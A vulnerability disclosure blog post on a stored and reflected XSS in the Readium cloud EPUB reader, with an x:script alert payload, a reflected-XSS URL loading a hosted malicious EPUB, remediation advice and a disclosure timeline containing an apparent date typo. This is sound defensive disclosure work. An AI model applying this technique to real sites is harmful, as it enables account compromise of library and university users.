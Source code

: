 ```yaml
---
description: Stumbling upon an XSS paradise.
cover: >-
  https://images.unsplash.com/photo-1481627834876-b7833e8f5570?crop=entropy&cs=tinysrgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHwxfHxsaWJyYXJ5fGVufDB8fHx8MTY3NDY3MTAyNw&ixlib=rb-4.0.3&q=80
coverY: 0
---
```


# ReadiumJS Cloud Reader — Everybody Gets an XSS!

## Introduction

Late last year, I participated in a bug bounty programme organized by Singapore's [Ministry of Defence (MINDEF)](https://www.mindef.gov.sg/) where I received the [Top Bug Bounty Hunter award](https://www.linkedin.com/feed/update/urn:li:activity:6993394788045606914/) (yay!).

Finding these bugs required a deep dive into the targets and their underlying technologies. This meant that, among other things, I learnt about the existence of the [EPUB format](https://www.w3.org/AudioVideo/ebook/) and the world of EPUB cloud readers.

This led me to discover a (surprisingly, somewhat known) XSS vulnerability in the [Readium](https://github.com/readium) cloud reader that affects many university websites and online libraries.

<figure><img src="../.gitbook/assets/78utju.jpeg" alt=""><figcaption></figcaption></figure>

I have attempted to get in touch with the maintainers to remediate the issue, but have not yet received any response. Going by the conventional 90-day disclosure timeline, I am now sharing details on this vulnerability.

## What is an EPUB? What is a Readium?

The EPUB format is an XML-based ebook format created by the [International Digital Publishing Forum (IDPF)](https://idpf.org/). It is one of the major ebook formats around today. Unlike other proprietary formats such as Amazon's Kindle KF8, the EPUB format is vendor-independent.

The [Readium](https://readium.org/) project was started by IDPF, and is one of the cited EPUB readers on the [W3 website](https://www.w3.org/AudioVideo/ebook/).

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 10.31.10 PM.png" alt=""><figcaption></figcaption></figure>

To see it in action, we can visit the Readium cloud reader [demo](https://readium.firebaseapp.com/). We can quickly see that the cloud reader renders `iframe`s containing pages of the ebook.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 11.00.24 PM.png" alt=""><figcaption></figcaption></figure>

Each page is fetched from the location indicated in `data-src` and converted into the final rendered HTML. The pages are XHTML files and are called EPUB [content documents](https://www.w3.org/publishing/epub3/epub-contentdocs.html). For example, page 1 of La Page Blanche contains the following content.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns="http://www.w3.org/1999/xhtml" xmlns:epub="http://www.idpf.org/2007/ops">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=1200, height=1577" />
        <title>La Page Blanche</title>
        <link href="../Style/style.css" type="text/css" rel="stylesheet" />
    </head>
    <body>
        <div class="page" epub:type="frontmatter titlepage"><img
                src="../Image/PageBlanche_Page_001.jpg" alt="page 1" /></div>
    </body>
</html>
```

## Popping Alerts

First of all, we could see that the `iframe` does not have the `sandbox` attribute present. This means that any scripts firing within the `iframe` would execute on the same origin as its `src`.

Readium will create a `Blob` containing the page data and create a new `blob:` URL for it ([source](https://github.com/readium/readium-js/blob/999d7c32bcdd1184bcc248312267c6e744d737b9/js/epub-fetch/iframe\_zip\_loader.js#L117-L125)). This is the URL that the frame `src` is set to ([source](https://github.com/readium/readium-js/blob/999d7c32bcdd1184bcc248312267c6e744d737b9/js/epub-fetch/iframe\_zip\_loader.js#L280-L281)).

```javascript
// prefer BlobBuilder as some browser supports Blob constructor but fails using it
if (window.BlobBuilder) {
    var builder = new BlobBuilder();
    builder.append(contentDocumentData);
    blob = builder.getBlob(contentType);
} else {
    blob = new Blob([contentDocumentData], {'type': contentType});
}
documentDataUri = window.URL.createObjectURL(blob);

...

if (isBlobHandled) {
    iframe.setAttribute("src", documentDataUri);
```

Unfortunately, this means that the `iframe`'s origin will always be that of the parent page.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 11.43.55 PM.png" alt=""><figcaption></figcaption></figure>

### Stored XSS

Suppose we are able to upload an ebook to an online library using Readium. We might upload a malicious EPUB that runs some evil JavaScript. Any user that opens our ebook would then have their account compromised.

To create such an EPUB, I copied an example EPUB from the Readium demo and changed the home page. An example PoC can be found [here](https://github.com/zeyu2001/readium-xss).

Note that we are using `x:script` to make the payload work with XHTML parsers.

```markup
<!DOCTYPE html>

<html>
    <body>
        Hello world!
    </body>
    <x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
</html>
```

### Reflected XSS

The above scenario requires us to have privileges on the target site to upload arbitrary EPUBs and serve them to other users. It turns out, however, that the cloud reader is able to load remote EPUBs as well.

The cloud reader uses [medialize/URI.js](https://github.com/medialize/URI.js) to normalize the `epub` query parameter, which is a relative URL ([source](https://github.com/readium/readium-js/blob/master/js/Readium.js#L171-L181)).

```javascript
ebookURL = new URI(ebookURL).absoluteTo(thisRootUrl).toString();
```

However, when `ebookURL` is an absolute URL, `absoluteTo` retains the original base URL.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.05.21 AM.png" alt=""><figcaption></figcaption></figure>

This means that by simply passing our hosted exploit URL to the `epub` query parameter, we have a reflected XSS! This does not require us to have any permissions on the target site.

Using the example PoC on the Readium demo should pop an alert:

`https://readium.firebaseapp.com/?epub=https://zeyu2001.github.io/readium-xss/`

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.12.53 AM.png" alt=""><figcaption></figcaption></figure>

## Who Uses Readium?

The Readium cloud reader is a rather old project. While more recent and popular cloud readers have been developed, some sites still use the Readium cloud reader, including the IDPF's own website and several university sites.

I have made best effort attempts at identifying these sites (e.g. through Google dorking) and reaching out to the responsible teams to remediate this vulnerability before the release of this post.

The sites that have since remediated the vulnerability include the [University of Minnesota's College of Education and Human Development website](https://www.cehd.umn.edu/), which no longer contains the cloud reader page.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.18.10 AM.png" alt=""><figcaption></figcaption></figure>

## Known Issue?

Interestingly, after doing some digging, I found that this was somewhat of a known issue. [This](https://readium.org/architecture/server/origin.html#serving-contents-in-the-web-context) documentation explains the issue.

> One should note that if a cloud reader aims to support JavaScript, all publications will at least share the same database, which means it is possible for an author to access data that originated in a different publication.

However, it leaves only the following suggestions to mitigate the vulnerability.

> Currently, the only options to protect against attacks (see "Security Concerns" section) are:
>
> * `iframe` sandboxing;
> * the Content Security Policy;
> * the Feature Policy.

These suggestions are _not_ implemented in the default installation of [readium-js-viewer](https://github.com/readium/readium-js-viewer).

## Remediation

Since this is quite an old project, the best remediation might be to move to a more modern cloud reader. If Readium needs to be used, the `iframe`s on the page should have the `sandbox` attribute set.

Additionally, the page's Content Security Policy can be used to restrict where scripts can be loaded from.

## Disclosure Timeline

* 11 October 2022: Contacted maintainers through OSS platform [huntr.dev](https://huntr.dev/)
* 16 December 2022: Contacted maintainers through GitHub issue
* 27 January 2022: This blog post is released
* 12 April 2023: CVE-2023-24720 assigned
